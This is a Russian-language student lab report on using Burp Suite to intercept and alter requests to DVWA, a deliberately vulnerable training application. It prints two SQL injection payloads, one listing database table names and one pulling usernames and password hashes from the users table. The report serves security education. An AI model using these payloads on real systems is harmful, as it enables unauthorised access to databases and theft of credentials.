







---
## Author
author:
  name: Миази Мд Шахадат Хоссейн
  email: 1032235323@rudn.ru
  affiliation:
    - name: Российский университет дружбы народов
      country: Российская Федерация
      postal-code: 117198
      city: Москва
      address: ул. Миклухо-Маклая, д. 6
	  
## Title
title: "Доклад по этапу проекта №5"
license: CC BY
date: today
date-format: "YYYY-MM-DD"
---

# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение приложения BurpSuite.

# Процесс выполнения лабораторной работы

## Введение

**Burp Suite** – это набор инструментов для тестирования безопасности веб-приложений. Этот инструмент используется для обнаружения уязвимостей, анализа трафика и проведения различных атак на веб-приложения, таких как XSS, SQL-инъекции и другие.

Burp Suite используется специалистами по безопасности, пентестерами и исследователями для:

- Поиска и анализа уязвимостей веб-приложений.
- Перехвата и анализа сетевого трафика.
- Автоматизации атак на веб-приложения.
- Оценки уровня защиты приложений.

## Введение

**SQL-инъекции** – это тип уязвимости, который позволяет злоумышленникам выполнять произвольные SQL-запросы в базе данных через приложение. Это может привести к несанкционированному доступу к данным, их модификации или даже удалению.

SQL-инъекция возникает, когда приложение не корректно обрабатывает пользовательский ввод и включает его в SQL-запросы. Злоумышленники могут вставить (инъектировать) свои SQL-коды в вводимые данные, которые затем выполняются базой данных.

## Работа перехватчика запросов

{ #fig:001 width=70% height=70% }

## Подмена данных в запросе

{ #fig:002 width=70% height=70% }

## Ответ от DVWA

{ #fig:003 width=70% height=70% }

## Подмена данных в запросе

Теперь попробуем получить имена таблиц, для этого передадим такой запрос

```sql
1 OR 1=1 UNION SELECT \
NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
## Подмена данных в запросе

{ #fig:004 width=70% height=70% }

## Ответ от DVWA

{ #fig:005 width=70% height=70% }

## Подмена данных в запросе

Попробуем получить данные пользователей из таблицы users.

```sql
1 OR 1=1 UNION SELECT USER,PASSWORD FROM users#
```

## Подмена данных в запросе

{ #fig:006 width=70% height=70% }

## Ответ от DVWA

{ #fig:007 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы изучили возможности BurpSuite.